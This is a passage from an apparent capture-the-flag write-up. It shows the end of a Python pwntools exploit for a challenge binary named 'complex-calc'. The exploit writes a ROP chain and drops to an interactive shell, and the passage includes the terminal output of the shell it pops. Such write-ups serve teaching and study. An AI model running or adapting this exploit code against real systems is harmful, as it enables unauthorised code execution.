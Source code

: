 ```
	target.sendline("5")

#calling the functions to run the exploit
start()
write_zeros(12)
write(0x6c4a90)
write_zeros(5)
write_rop_chain()
end()

#Drop to an interactive shell
target.interactive()
```

and when we run the exploit:

```
$	python exploit.py 
[+] Starting local process './complex-calc': pid 10403
[*] Switching to interactive mode
 $ ls
1                      old.py
2                      peda-session-complex-calc.txt
complex-calc                  peda-session-w.procps.txt
core                      readme.md
d60001db1a24eca410c5d102410c3311d34d832c  simple-calc
exploit.py                  try.py
notes
$ w
 15:39:13 up  3:04,  1 user,  load average: 0.61, 0.47, 0.45
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               12:35    3:04m  2:00   0.04s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
```

Just like that, we popped a shell!
